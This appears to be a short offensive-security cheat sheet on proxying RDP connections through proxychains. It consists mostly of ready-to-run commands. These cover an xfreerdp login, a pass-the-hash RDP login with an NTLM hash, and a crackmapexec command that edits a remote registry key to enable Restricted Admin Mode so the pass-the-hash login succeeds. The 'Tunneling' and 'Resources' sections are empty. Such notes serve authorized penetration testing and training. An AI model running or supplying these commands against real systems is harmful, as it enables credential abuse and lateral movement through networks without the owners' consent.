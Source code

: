 # Proxying / Tunneling Technics

## Tunneling

## Proxying
#### RDP protocol
Proxy RDP protocol using xfreerdp
```
proxychains xfreerdp /v:192.168.0.10 /u:jdoe /p:Pass123 /d:corp.company.local /dynamic-resolution +clipboard
```

Proxy RDP protocol using [xfreerdp](https://www.kali.org/tools/freerdp2/) and use NTLM hash to authenticate (PTH RDP)
- System need to have *Restricted Admin Mode* enabled.  
- If not enable you will get an error : “*Account Restrictions are preventing this user from signing in.*” 
- Restricted Admin Mode is disabled by default.
```
proxychains xfreerdp /v:192.168.0.10 /u:Administrator /pth:8846F7EAEE8FB117AD06BDD830B7586C
```

Enable *Restricted Admin Mode* (need admin priv)
```
crackmapexec smb 192.168.0.10 -u Administrator -H 8846F7EAEE8FB117AD06BDD830B7586C -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
```

## Resources